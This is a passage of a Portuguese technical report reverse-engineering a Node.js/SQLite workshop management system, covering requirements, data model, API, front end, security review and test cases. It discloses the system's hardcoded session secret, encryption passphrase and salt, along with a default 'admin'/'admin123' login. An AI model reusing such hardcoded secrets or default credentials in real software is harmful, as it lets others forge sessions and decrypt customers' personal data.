


# Relatório Técnico de Engenharia Reversa
## Sistema de Gestão da Oficina Mecânica AutoCerta

**Data:** 19 de Outubro de 2026  
**Autor:** Engenheiro(a) de Software / Analista de Sistemas  
**Repositório Base:** `/home/h3/Área de trabalho/h3/sistema`  
**Tecnologias:** Node.js (v24.22.0 / >= 22.13.0), Express.js 5.3, SQLite 3 (node:sqlite `DatabaseSync`), Web Nativo (HTML5/CSS3/Vanilla JS ES6+).

---

## 1. Levantamento de Requisitos e Regras de Negócio

### 1.1 Requisitos Funcionais (RF)

| ID | Nome do Requisito | Descrição Técnica e Comportamento |
| :--- | :--- | :--- |
| **RF01** | Autenticação de Operadores | O sistema deve permitir que operadores acessem as funcionalidades internas mediante informe de usuário (`login`) e senha (`senha`). |
| **RF02** | Encerramento de Sessão (Logout) | O sistema deve permitir que o operador autenticado encerre sua sessão a qualquer momento, destruindo a sessão no servidor. |
| **RF03** | Identificação do Usuário Logado | As páginas internas devem exibir o nome do operador autenticado no cabeçalho superior direito. |
| **RF04** | Consulta e Filtro de Clientes | O sistema deve listar todos os clientes cadastrados em ordem alfabética por nome e permitir filtragem dinâmica por nome, CPF, telefone ou e-mail. |
| **RF05** | Cadastro de Novos Clientes | O sistema deve permitir cadastrar novos clientes informando nome, CPF (obrigatório, 11 dígitos), telefone e e-mail. |
| **RF06** | Edição de Dados de Clientes | O sistema deve permitir a alteração cadastral de clientes já existentes mantendo a integridade do identificador único (ID). |
| **RF07** | Listagem de Veículos | O sistema deve listar todos os veículos cadastrados ordenados alfabeticamente por modelo, apresentando a placa, tipo, marca e o nome do cliente proprietário. |
| **RF08** | Cadastro de Veículos | O sistema deve permitir cadastrar novos veículos associados obrigatoriamente a um cliente existente, com placa no padrão brasileiro/Mercosul. |
| **RF09** | Listagem Cronológica de Agendamentos | O sistema deve exibir os agendamentos de serviços agrupados visualmente por mês/ano e ordenados cronologicamente por data. |
| **RF10** | Cadastro de Agendamentos | O sistema deve permitir registrar agendamentos de serviço informando o veículo selecionado, uma data válida no formato ISO e a descrição do serviço. |
| **RF11** | Reprogramação de Data de Agendamento | O sistema deve permitir alterar exclusivamente a data de realização de um serviço agendado. |

---

### 1.2 Regras de Negócio (RN)

| ID | Regra de Negócio | Camada de Aplicação | Evidência no Código-Fonte |
| :--- | :--- | :--- | :--- |
| **RN01** | **Controle de Sessão e Timeout:** Sessões inativas expiram após 30 minutos (1.800.000 ms). Requisições não autenticadas recebem 401 e são redirecionadas para o login. | Back-end e Front-end | `server.js` (L9-L17, L22-L27) / `comum.js` (L8-L11). |
| **RN02** | **Proteção de Senhas:** Senhas nunca são gravadas em texto claro; utilizam hash criptográfico unidirecional bcrypt com custo 8. | Back-end e Banco | `server.js` (L36), `gerar_sql.js` (L8, L53-L56). |
| **RN03** | **Confidencialidade de Dados Pessoais (LGPD):** O CPF dos clientes deve ser gravado cifrado em repouso no banco usando AES-256-GCM com IV aleatório. | Back-end / DB | `seguranca.js` (L7-L20), `server.js` (L50, L80, L94). |
| **RN04** | **Formato e Validação de CPF:** O CPF deve conter exatamente 11 dígitos numéricos após limpeza de pontuação. | Back-end | `server.js` (L56): `if (cpf.length !== 11) return 'O CPF deve ter 11 dígitos.'`. |
| **RN05** | **Unicidade de CPF:** Não é permitido o cadastro de dois clientes com o mesmo CPF. | Back-end | `server.js` (L58-L60): descriptografa e compara em memória. |
| **RN06** | **Formato Sintático de E-mail:** E-mail de cliente, quando fornecido, deve obedecer ao padrão regex `^\S+@\S+\.\S+$`. | Back-end | `server.js` (L57). |
| **RN07** | **Padrão de Placas Veiculares:** Aceita placas do formato clássico cinza (`ABC1234`) e Mercosul (`ABC1D23`) via regex `^[A-Z]{3}\d[A-Z0-9]\d{2}$`. | Back-end | `server.js` (L100, L112). |
| **RN08** | **Unicidade de Placa:** Não é permitido cadastrar dois veículos com a mesma placa. | Back-end e Banco | `server.js` (L119-L121) e `oficina_db.sql` (L30: `UNIQUE`). |
| **RN09** | **Obrigatoriedade de Vínculo Veículo-Cliente:** Todo veículo deve obrigatoriamente estar associado a um cliente existente. | Front, Back e DB | `veiculos.js` (L20-L23), `server.js` (L115-L118) e `oficina_db.sql` (L34-L35). |
| **RN10** | **Validação Calendárica Estrita:** Datas de agendamento devem ser datas reais no formato `AAAA-MM-DD` (rejeita 31 de fevereiro ou dias inválidos). | Back-end | `server.js` (L128-L132): `d.toISOString().slice(0, 10) === texto`. |
| **RN11** | **Sanitização contra XSS:** Todo dado textual renderizado no front-end deve ser sanitizado contra injeção de HTML/JavaScript. | Front-end | `comum.js` (L18-L22): função `esc()`. |

---

## 2. Modelo de Dados (DER)

### 2.1 Diagrama Entidade-Relacionamento (Mermaid)



### 2.2 Dicionário de Dados

#### Tabela `usuarios`
| Campo | Tipo | Nulo | Chave | Descrição e Observações |
| :--- | :--- | :--- | :--- | :--- |
| `id` | INTEGER | Não | PK | Identificador sequencial primário (`AUTOINCREMENT`). |
| `nome` | TEXT | Não | - | Nome completo do operador do sistema. |
| `login` | TEXT | Não | UNIQUE | Usuário de autenticação único no sistema. |
| `senha` | TEXT | Não | - | Hash bcrypt (com salt e custo 8). Formato: `$2b$08$...` |

#### Tabela `clientes`
| Campo | Tipo | Nulo | Chave | Descrição e Observações |
| :--- | :--- | :--- | :--- | :--- |
| `id` | INTEGER | Não | PK | Identificador único do cliente (`AUTOINCREMENT`). |
| `nome` | TEXT | Não | - | Nome completo do cliente. |
| `cpf` | TEXT | Não | - | Criptografado em AES-256-GCM. Armazena `iv:tag:dados` em Base64. |
| `telefone` | TEXT | Sim | - | Telefone de contato (DDD + número). |
| `email` | TEXT | Sim | - | Endereço eletrônico de contato. |

#### Tabela `veiculos`
| Campo | Tipo | Nulo | Chave | Descrição e Observações |
| :--- | :--- | :--- | :--- | :--- |
| `id` | INTEGER | Não | PK | Identificador único do veículo (`AUTOINCREMENT`). |
| `placa` | TEXT | Não | UNIQUE | Placa única (padrão antigo `ABC1234` ou Mercosul `ABC1D23`). |
| `modelo` | TEXT | Não | - | Descrição do modelo do veículo (ex: Onix, Hilux). |
| `tipo` | TEXT | Não | - | Categoria do veículo (`Carro`, `Moto`, `Utilitário`). |
| `marca` | TEXT | Sim | - | Fabricante/Montadora (Chevrolet, Honda, Toyota, etc.). |
| `cliente_id` | INTEGER | Não | FK | Referência obrigatória à chave primária de `clientes(id)`. |

#### Tabela `agendamentos`
| Campo | Tipo | Nulo | Chave | Descrição e Observações |
| :--- | :--- | :--- | :--- | :--- |
| `id` | INTEGER | Não | PK | Identificador único do agendamento (`AUTOINCREMENT`). |
| `veiculo_id` | INTEGER | Não | FK | Referência obrigatória à chave primária de `veiculos(id)`. |
| `data_agendamento`| TEXT | Não | - | Data em padrão ISO 8601 textual (`AAAA-MM-DD`). |
| `servico` | TEXT | Não | - | Descrição do serviço de manutenção a ser executado. |

---

## 3. Mapa Completo da API REST (Back-end)

| Método | Endpoint | Protegido | Recebe (Payload/Params) | Devolve (Response) | Validações e Regras | Status Codes |
| :--- | :--- | :---: | :--- | :--- | :--- | :--- |
| `POST` | `/api/login` | Não | `{ login, senha }` | `{ ok: true }` ou `{ erro: string }` | - Presença de usuário e senha<br>- `bcrypt.compareSync(senha, usuario.senha)` | **200** Sucesso<br>**400** Dados ausentes<br>**401** Credenciais incorretas |
| `POST` | `/api/logout` | Não | Vazio | `{ ok: true }` | Destrói a sessão atual (`req.session.destroy`) | **200** Sucesso |
| `GET` | `/api/me` | **Sim** | Cookie de sessão | `{ id: number, nome: string }` | Verifica se `req.session.usuario` está ativo | **200** Logado<br>**401** Não autenticado |
| `GET` | `/api/clientes` | **Sim** | Query: `?busca=termo` (opcional) | Array de clientes com CPF descriptografado | Filtra em memória por nome, telefone, e-mail ou dígitos de CPF | **200** Sucesso<br>**401** Não autenticado |
| `POST` | `/api/clientes` | **Sim** | `{ nome, cpf, telefone, email }` | `{ ok: true }` ou `{ erro: string }` | - Nome obrigatório<br>- CPF com 11 dígitos<br>- E-mail válido<br>- CPF não duplicado | **201** Criado<br>**400** Validação falhou<br>**401** Não autenticado |
| `PUT` | `/api/clientes/:id` | **Sim** | Param: `:id`<br>Body: `{ nome, cpf, telefone, email }` | `{ ok: true }` ou `{ erro: string }` | - Existência do cliente por ID<br>- Validações idênticas ao cadastro (exceto próprio ID) | **200** Atualizado<br>**400** Validação falhou<br>**404** Não encontrado<br>**401** Não autenticado |
| `GET` | `/api/veiculos` | **Sim** | Vazio | Array de veículos com `cliente_nome` (JOIN) | Consulta via INNER JOIN ordenado por `v.modelo` | **200** Sucesso<br>**401** Não autenticado |
| `POST` | `/api/veiculos` | **Sim** | `{ placa, modelo, tipo, marca, cliente_id }` | `{ ok: true }` ou `{ erro: string }` | - Placa válida (`^[A-Z]{3}\d[A-Z0-9]\d{2}$`)<br>- Placa única no banco<br>- Modelo e tipo obrigatórios<br>- Cliente deve existir no DB | **201** Criado<br>**400** Validação falhou<br>**401** Não autenticado |
| `GET` | `/api/agendamentos` | **Sim** | Vazio | Array de agendamentos completos com veículo e cliente | Ordenação SQL: `ORDER BY strftime('%Y-%m', a.data_agendamento), a.data_agendamento` | **200** Sucesso<br>**401** Não autenticado |
| `POST` | `/api/agendamentos` | **Sim** | `{ veiculo_id, data_agendamento, servico }` | `{ ok: true }` ou `{ erro: string }` | - Veículo deve existir<br>- Data deve ser válida e real (`dataValida`)<br>- Serviço não vazio | **201** Criado<br>**400** Validação falhou<br>**401** Não autenticado |
| `PUT` | `/api/agendamentos/:id` | **Sim** | Param: `:id`<br>Body: `{ data_agendamento }` | `{ ok: true }` ou `{ erro: string }` | - Existência do agendamento<br>- Data válida e real | **200** Atualizado<br>**400** Data inválida<br>**404** Não encontrado<br>**401** Não autenticado |

---

## 4. Mapa do Front-end (Interface com o Usuário)

| Página HTML | Script Vinculado | Rotas da API Invocadas | Ações do Usuário e Comportamento da Interface |
| :--- | :--- | :--- | :--- |
| `login.html` | `js/comum.js`<br>`js/login.js` | `POST /api/login` | **1. Carga da página:** Se a URL contiver `?expirou=1`, exibe a mensagem "Sua sessão expirou. Faça login novamente." no elemento `#erro`.<br>**2. Submissão do formulário:** Lê os campos de usuário e senha e envia para `POST /api/login`. Se bem-sucedido, redireciona o navegador para `/principal.html`. Se falhar (400 ou 401), exibe a mensagem de erro retornada pela API sem recarregar a tela. |
| `principal.html`| `js/comum.js`<br>(script inline) | `GET /api/me`<br>`POST /api/logout` | **1. Carga da página:** Invoca `iniciarPagina()`, que consulta `GET /api/me` e injeta o nome do operador no cabeçalho `#nome-usuario`.<br>**2. Clique em Sair:** Chama `POST /api/logout` e redireciona para `login.html`.<br>**3. Navegação:** Fornece cartões clicáveis com links diretos para `clientes.html`, `veiculos.html` e `agendamentos.html`. |
| `clientes.html` | `js/comum.js`<br>`js/clientes.js` | `GET /api/me`<br>`POST /api/logout`<br>`GET /api/clientes`<br>`POST /api/clientes`<br>`PUT /api/clientes/:id` | **1. Carga:** Dispara `iniciarPagina()` e `carregar()` buscando a lista de clientes e desenhando a tabela.<br>**2. Busca:** Ao clicar em 'Buscar' ou pressionar 'Enter' no input `#busca`, recarrega a tabela chamando `GET /api/clientes?busca=...`.<br>**3. Novo Cliente:** Botão `+ Novo cliente` abre o modal limpo com título "Novo cliente" (`editandoId = null`).<br>**4. Editar Cliente:** Botão "Editar" na linha da tabela preenche os campos do modal com os dados do cliente e define `editandoId = id`.<br>**5. Salvar Modal:** Submete os dados. Se `editandoId == null`, chama `POST /api/clientes`; se possuir ID, chama `PUT /api/clientes/:id`. Exibe toast verde de sucesso via `avisar()`, fecha modal e atualiza a tabela. Se a API recusar, exibe toast vermelho de erro com a mensagem do servidor. |
| `veiculos.html` | `js/comum.js`<br>`js/veiculos.js` | `GET /api/me`<br>`POST /api/logout`<br>`GET /api/veiculos`<br>`GET /api/clientes`<br>`POST /api/veiculos` | **1. Carga:** Chama `iniciarPagina()` e `carregar()`, listando os veículos cadastrados.<br>**2. Novo Veículo:** Ao clicar em `+ Novo veículo`, faz `GET /api/clientes` para popular dinamicamente as opções do `<select id="cliente">`, reseta o formulário e abre o modal.<br>**3. Salvar Veículo:** Envia `{ placa, modelo, tipo, marca, cliente_id }` para `POST /api/veiculos`. Fecha o modal, emite alerta de confirmação e recarrega a lista. |
| `agendamentos.html`| `js/comum.js`<br>`js/agendamentos.js` | `GET /api/me`<br>`POST /api/logout`<br>`GET /api/agendamentos`<br>`GET /api/veiculos`<br>`POST /api/agendamentos`<br>`PUT /api/agendamentos/:id` | **1. Carga:** Executa `iniciarPagina()` e `carregar()`. A listagem é iterada: a cada mudança de mês, insere um cabeçalho `<tr class="linha-mes">` com o nome do mês e ano formatados.<br>**2. Novo Agendamento:** Botão `+ Novo agendamento` busca a lista de veículos (`GET /api/veiculos`) para popular o select `#veiculo`, exibindo placa, modelo e cliente. Salva via `POST /api/agendamentos`.<br>**3. Alterar Data:** Clique no botão "Alterar data" de qualquer agendamento abre o modal preenchido com a data atual e salva via `PUT /api/agendamentos/:id`. |

---

## 5. Análise de Segurança

### 5.1 Mecanismos Atualmente Implementados

1. **Autenticação e Sessão:**
   - Gerenciada pelo pacote `express-session`.
   - Cookie assinado com segredo `oficina-autocerta-sessao`.
   - Flag `httpOnly: true` ativada, bloqueando leitura de cookies de sessão via scripts JavaScript (`document.cookie`), prevenindo roubo de credencial por XSS.
   - Timeout de inatividade de 30 minutos configurado no cookie (`maxAge: 30 * 60 * 1000`).
2. **Hash de Senhas:**
   - Implementado com a biblioteca `bcryptjs`.
   - Salting automático e custo computacional (salt rounds) configurado em 8 no script `gerar_sql.js`.
   - Comparação temporalmente segura no endpoint de login via `bcrypt.compareSync(senha, usuario.senha)`.
3. **Criptografia Reversível de Dados Sensíveis (CPF):**
   - Implementada no arquivo `seguranca.js` com o algoritmo **AES-256-GCM** (modo Galois/Counter).
   - Utiliza KDF `crypto.scryptSync` para gerar a chave de 256 bits a partir de uma frase secreta e salt.
   - Gera um IV (Vetor de Inicialização) aleatório de 12 bytes (`crypto.randomBytes(12)`) para cada cifra.
   - Gera Authentication Tag (16 bytes) para garantir que qualquer alteração indevida de bits no banco resulte em falha de autenticidade (integridade garantida).
4. **Proteção contra SQL Injection:**
   - Todas as operações no banco utilizam *Prepared Statements* com parâmetros vinculados (`db.prepare('... WHERE id = ?').run(id)`), impedindo que dados do usuário alterem a árvore sintática das consultas SQL.
5. **Proteção contra Cross-Site Scripting (XSS):**
   - O front-end utiliza a função `esc()` antes de interpolar qualquer dado dinâmico em `innerHTML`, convertendo `<`, `>`, `&`, `"` e `'` em entidades HTML.

### 5.2 Três Pontos Críticos de Melhoria

1. **Gestão de Segredos e Chaves Criptográficas (Hardcoded Secrets):**
   - *Problema:* A chave secreta da sessão (`'oficina-autocerta-sessao'`), a senha de derivação da cifra (`'oficina-autocerta-chave-secreta'`) e o sal (`'sal-da-oficina'`) estão expostos diretamente no código-fonte (`server.js` e `seguranca.js`). Qualquer pessoa com acesso ao repositório pode forjar cookies de sessão e descriptografar todos os CPFs da base de dados.
   - *Melhoria:* Mover todos os segredos para variáveis de ambiente via arquivo `.env` (ex: `process.env.SESSION_SECRET` e `process.env.ENCRYPTION_KEY`), com arquivo ignorado pelo `.gitignore`.
2. **Ausência de Rate Limiting e Proteção contra Força Bruta:**
   - *Problema:* O endpoint `POST /api/login` não impõe limite de tentativas. Um atacante pode realizar milhares de tentativas por segundo para descobrir senhas de operadores ou provocar exaustão de CPU (já que o bcrypt consome processamento propositalmente).
   - *Melhoria:* Implementar middleware de limitação de taxa (ex.: `express-rate-limit`), bloqueando o IP por 15 minutos após 5 tentativas de login consecutivas incorretas.
3. **Controle de Acesso Baseado em Perfis (RBAC - Role-Based Access Control):**
   - *Problema:* O sistema possui usuários de diferentes funções (Administrador, Mecânico e Recepção), mas a API trata todos de forma idêntica. Todos podem cadastrar e editar qualquer cliente, veículo ou alterar datas de agendamentos.
   - *Melhoria:* Criar coluna `perfil` (`admin`, `mecanico`, `recepcao`) na tabela `usuarios` e middlewares de autorização específicos (ex.: apenas `admin` pode gerenciar operadores e excluir registros; mecânicos apenas consultam veículos e alteram status de agendamento).

---

## 6. Casos de Teste Executados e Evidências

Todos os casos de teste abaixo foram executados contra a aplicação real em ambiente Node.js.

| ID | Requisito / Regra | Procedimento de Teste | Resultado Esperado | Resultado Real Obtido | Status |
| :---: | :--- | :--- | :--- | :--- | :---: |
| **CT01** | RF01 / RN01 | Enviar `POST /api/login` com `{ login: "admin", senha: "admin123" }`. | HTTP 200, `{ ok: true }` e cabeçalho `Set-Cookie` presente. | HTTP 200, `{ ok: true }`, cookie `connect.sid` gerado. | **PASSOU** |
| **CT02** | RF01 / RN02 | Enviar `POST /api/login` com `{ login: "admin", senha: "senha_errada" }`. | HTTP 401 Unauthorized com `{ erro: "Usuário ou senha inválidos." }`. | HTTP 401, erro idêntico ao esperado. | **PASSOU** |
| **CT03** | RF01 | Enviar `POST /api/login` com campos vazios `{ login: "", senha: "" }`. | HTTP 400 Bad Request com `{ erro: "Informe usuário e senha." }`. | HTTP 400, `{ erro: "Informe usuário e senha." }`. | **PASSOU** |
| **CT04** | RN01 | Requisitar `GET /api/clientes` sem fornecer cookie de sessão. | HTTP 401 Unauthorized com `{ erro: "Sessão expirada. Faça login novamente." }`. | HTTP 401, resposta idêntica ao esperado. | **PASSOU** |
| **CT05** | RF03 | Requisitar `GET /api/me` com cookie de sessão de login válido. | HTTP 200 com JSON contendo `{ id: 1, nome: "Administrador" }`. | HTTP 200, `{ id: 1, nome: "Administrador" }`. | **PASSOU** |
| **CT06** | RF04 / RN03 | Requisitar `GET /api/clientes` com sessão autenticada. | HTTP 200, array com 3 clientes iniciais com CPF descriptografado. | HTTP 200, array retornado com 3 clientes legíveis. | **PASSOU** |
| **CT07** | RF05 / RN04 | Enviar `POST /api/clientes` com cliente válido e CPF de 11 dígitos numéricos. | HTTP 201 Created com `{ ok: true }`. | HTTP 201, `{ ok: true }`. | **PASSOU** |
| **CT08** | RF05 / RN05 | Enviar `POST /api/clientes` com o mesmo CPF cadastrado no CT07. | HTTP 400 Bad Request com `{ erro: "Já existe um cliente com este CPF." }`. | HTTP 400, mensagem de erro de unicidade confirmada. | **PASSOU** |
| **CT09** | RF05 / RN04 | Enviar `POST /api/clientes` com CPF curto contendo apenas 5 dígitos (`"12345"`). | HTTP 400 Bad Request com `{ erro: "O CPF deve ter 11 dígitos." }`. | HTTP 400, mensagem de erro confirmada. | **PASSOU** |
| **CT10** | RF05 / RN06 | Enviar `POST /api/clientes` com formato inválido de e-mail (`"emailinvalido"`). | HTTP 400 Bad Request com `{ erro: "E-mail inválido." }`. | HTTP 400, mensagem `{ erro: "E-mail inválido." }`. | **PASSOU** |
| **CT11** | RF06 | Enviar `PUT /api/clientes/:id` com ID existente e novos dados válidos. | HTTP 200 OK com `{ ok: true }`. | HTTP 200, dados atualizados com sucesso. | **PASSOU** |
| **CT12** | RF06 | Enviar `PUT /api/clientes/9999` com ID de cliente inexistente. | HTTP 404 Not Found com `{ erro: "Cliente não encontrado." }`. | HTTP 404, erro de cliente não encontrado confirmado. | **PASSOU** |
| **CT13** | RF08 / RN07 | Enviar `POST /api/veiculos` com placa Mercosul `"XYZ9K88"` e `cliente_id` existente. | HTTP 201 Created com `{ ok: true }`. | HTTP 201, `{ ok: true }`. | **PASSOU** |
| **CT14** | RF08 / RN07 | Enviar `POST /api/veiculos` com placa fora de formato `"PLACAERRADA123"`. | HTTP 400 Bad Request com `{ erro: "Informe uma placa válida." }`. | HTTP 400, `{ erro: "Informe uma placa válida." }`. | **PASSOU** |
| **CT15** | RF08 / RN09 | Enviar `POST /api/veiculos` com `cliente_id: 88888` (inexistente). | HTTP 400 Bad Request com `{ erro: "Cliente não encontrado." }`. | HTTP 400, `{ erro: "Cliente não encontrado." }`. | **PASSOU** |
| **CT16** | RF08 / RN08 | Enviar `POST /api/veiculos` tentando duplicar a placa `"XYZ9K88"`. | HTTP 400 Bad Request com `{ erro: "Já existe um veículo com esta placa." }`. | HTTP 400, `{ erro: "Já existe um veículo..." }`. | **PASSOU** |
| **CT17** | RF10 / RN10 | Enviar `POST /api/agendamentos` com veículo existente e data ISO válida. | HTTP 201 Created com `{ ok: true }`. | HTTP 201, agendamento gravado com sucesso. | **PASSOU** |
| **CT18** | RF10 / RN10 | Enviar `POST /api/agendamentos` com data fictícia impossível `"2026-02-31"`. | HTTP 400 Bad Request com `{ erro: "Informe uma data válida." }`. | HTTP 400, rejeitado pela função de data válida. | **PASSOU** |
| **CT19** | RF11 | Enviar `PUT /api/agendamentos/:id` com nova data válida. | HTTP 200 OK com `{ ok: true }`. | HTTP 200, data atualizada no SQLite. | **PASSOU** |
| **CT20** | RF02 | Enviar `POST /api/logout` com cookie de sessão ativo. | HTTP 200 OK com `{ ok: true }` e destruição da sessão. | HTTP 200, `{ ok: true }`. | **PASSOU** |
| **CT21** | RF02 / RN01 | Enviar `GET /api/me` reutilizando o cookie anterior após o logout. | HTTP 401 Unauthorized com `{ erro: "Sessão expirada. Faça login novamente." }`. | HTTP 401, acesso negado confirmado. | **PASSOU** |

---

## 7. Diagrama de Fluxo de Execução

### Fluxo Completo: Cadastro de um Novo Veículo
Do clique no navegador até a persistência no banco SQLite e retorno visual na interface:



---

## 8. Respostas Fundamentadas às Perguntas de Investigação

### 1. O que acontece se a sessão expirar enquanto você está em uma tela interna? Onde isso é tratado, no front ou no back?
- **Resposta Técnica:**  
  O tratamento é **híbrido e coordenado entre back-end e front-end**:
  1. **No Back-end:** O middleware `exigirLogin` em `server.js` (linhas 22-27) verifica se `req.session.usuario` existe. Se os 30 minutos tiverem passado, o cookie não é mais reconhecido e o back-end rejeita a requisição imediatamente respondendo HTTP `401 Unauthorized` com `{ erro: 'Sessão expirada. Faça login novamente.' }`.
  2. **No Front-end:** A função central de comunicação `api()` em `comum.js` (linhas 8-11) intercepta o código de resposta:
     ```javascript
     if (resp.status === 401 && !url.includes('/api/login')) {
         window.location.href = '/login.html?expirou=1';
         return new Promise(() => {}); // Congela o código da tela
     }
     ```
  3. Ao chegar em `login.html`, o script `login.js` (linhas 9-11) lê o parâmetro `?expirou=1` e exibe na tela o aviso: *"Sua sessão expirou. Faça login novamente."*.

### 2. Por que a busca de clientes por CPF é feita no código e não direto em SQL?
- **Resposta Técnica:**  
  A busca precisa ser feita em memória no código JavaScript porque o CPF está armazenado no SQLite **criptografado de forma não determinística** via **AES-256-GCM** (`seguranca.js`, linhas 7-13).  
  A cada chamada da função `criptografar()`, é gerado um vetor de inicialização aleatório de 12 bytes (`crypto.randomBytes(12)`). Com isso, um mesmo CPF (ex: `12345678901`) resulta em uma cadeia Base64 completamente diferente cada vez que é gravado.  
  Comandos SQL como `WHERE cpf LIKE '%123%'` ou `WHERE cpf = '...'` procurariam na string cifrada ilegível (`bk2tHfj0CRyt...`) e **nunca encontrariam correspondência**. Logo, o servidor precisa obrigatoriamente trazer os registros (`SELECT * FROM clientes`), descriptografar cada CPF em memória (`c.cpf = descriptografar(c.cpf)`) e aí sim aplicar o filtro JavaScript (`c.cpf.includes(digitos)`).

### 3. Por que a listagem de agendamentos aparece agrupada por mês? Qual parte do código faz a ordenação e qual faz o agrupamento visual?
- **Resposta Técnica:**  
  Existe uma divisão precisa de responsabilidades:
  1. **A Ordenação cronológica é feita pelo Back-end (SQL):** No arquivo `server.js` (linhas 135-142), a rota `GET /api/agendamentos` executa a query:
     ```sql
     ORDER BY strftime('%Y-%m', a.data_agendamento), a.data_agendamento
     ```
     O SQLite garante que os registros já cheguem ordenados cronologicamente primeiro por ano-mês e depois por dia.
  2. **O Agrupamento Visual é feito pelo Front-end (JavaScript):** No arquivo `agendamentos.js` (linhas 10-18), a função `carregar()` itera sequencialmente sobre a lista pré-ordenada e compara o mês da linha atual (`nomeMes(a.data_agendamento)`) com o `mesAtual`. Quando o mês muda, o script injeta no DOM a linha separadora de título:
     ```javascript
     if (mes !== mesAtual) {
         mesAtual = mes;
         html += `<tr class="linha-mes"><td colspan="11">${esc(mes)}</td></tr>`;
     }
     ```

### 4. O que impede cadastrar um veículo sem cliente? Existe proteção em mais de uma camada?
- **Resposta Técnica:**  
  Sim, o sistema possui **proteção em 3 camadas independentes**:
  1. **Camada 1 - Front-end (`veiculos.js`, linhas 18-26):** O formulário não possui campo de texto livre para o cliente. Ele preenche um elemento `<select>` obrigatório populado a partir de `GET /api/clientes`, exigindo que o operador selecione um cliente cadastrado antes de submeter.
  2. **Camada 2 - Back-end / API (`server.js`, linhas 115-118):** O endpoint `POST /api/veiculos` valida se `cliente_id` foi enviado e consulta o banco:
     ```javascript
     if (!cliente_id) return res.status(400).json({ erro: 'Selecione o cliente do veículo.' });
     if (!db.prepare('SELECT id FROM clientes WHERE id = ?').get(cliente_id)) {
         return res.status(400).json({ erro: 'Cliente não encontrado.' });
     }
     ```
     Se um invasor burlar o front-end via cURL, a API bloqueia com HTTP 400.
  3. **Camada 3 - Banco de Dados SQLite (`oficina_db.sql` e `conexao.js`):** A coluna `cliente_id` é `NOT NULL` com chave estrangeira:
     ```sql
